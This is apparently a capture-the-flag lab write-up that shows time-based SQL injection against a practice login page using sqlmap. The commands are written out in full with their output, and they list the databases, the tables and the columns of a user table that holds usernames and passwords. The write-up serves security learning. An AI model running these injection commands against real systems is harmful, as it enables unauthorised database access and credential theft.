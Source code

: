 Hint:sqli time base

Using this cmd `sqlmap -u "http://10.10.13.95/login" \
  --data="username=DesKel&password=anything" \
  -p username --batch --technique=BEUST --time-sec=6 --threads=6 --dbs
` to list databse
```bash
[11:14:04] [INFO] retrieved: 18
[11:14:33] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[11:14:33] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.13.95'

```
we found the THM_f0und_m3 db so we use next `sqlmap -u "http://10.10.13.95/login" \
  --data="username=DesKel&password=anything" \
  -p username --batch --technique=BEUST --time-sec=6 \
  -D THM_f0und_m3 --tables
` to find tables of the db
```bash
[11:28:50] [INFO] retrieved: nothing_inside
[11:29:57] [INFO] retrieved: user
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+

[11:30:17] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.13.95'
```
we found collum of that table we use `sqlmap -u "http://10.10.13.95/login" \
  --data="username=DesKel&password=anything" \
  -p username --batch --technique=BEUST --time-sec=6 --threads=6 \
  -D THM_f0und_m3 -T user --columns
` to extract content from that table
```bash
[11:45:38] [INFO] retrieved: password
[11:45:38] [INFO] retrieving the length of query output
[11:45:38] [INFO] retrieved: 11
[11:46:00] [INFO] retrieved: varchar(40)
Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(40) |
| username | varchar(30) |
+----------+-------------+

[11:46:00] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.13.95'
```
